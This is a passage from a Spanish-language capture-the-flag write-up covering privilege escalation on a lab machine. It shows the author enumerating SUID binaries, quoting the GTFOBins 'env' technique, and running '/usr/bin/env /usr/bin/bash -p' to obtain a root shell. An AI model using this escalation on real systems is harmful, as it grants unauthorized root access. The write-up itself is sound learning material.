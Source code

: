 ## Escalada de privilegios

No hemos descubierto nada que no supieramos. Vamos a intentar entonces la escalad de privilegios.
Averiguemos que procesos están corriendo con permisos de root

```shell
dylan@f911f816511a:/etc$ find / -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/env
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chfn
```

Aquí es donde me puse a pensar un rato que tipo de exploit podría usar contra estos, los propios binarios parecen bastante seguros así que si investigamos un poco podemos encontrar como explotar algunas vulnerabilidades.

GTFOBins proporciona una lista de binarios de Unix/Linux que se pueden usar para eludir las restricciones de seguridad locales en sistemas mal configurados. [https://gtfobins.github.io/gtfobins/env/](https://gtfobins.github.io/gtfobins/env/){:target="_blank"}

Este ejemplo crea una copia SUID local del binario y la ejecuta para mantener privilegios elevados.

```shell
sudo install -m =xs $(which env) .
./env /bin/sh -p
```
Si bien esta vulnerabilidad ya debería estar parcheada en la mayoría de sistemas parecía la única que realmente parece explotable. Así que pruebo el comando sin más

``` shell
dylan@f911f816511a:/etc$ /usr/bin/env /usr/bin/bash -p
bash-5.1# whoami
root
```

Este reto se cateroriza de nivel: muy fácil, sin embargo parece pero que requiere algo de conocimiento de como buscar vulnerabilidades y explotarlas, por descontado el SQL injection. Supongo que al haber conseguido root hemos terminado el reto. 
Espero que el primero de muchos.  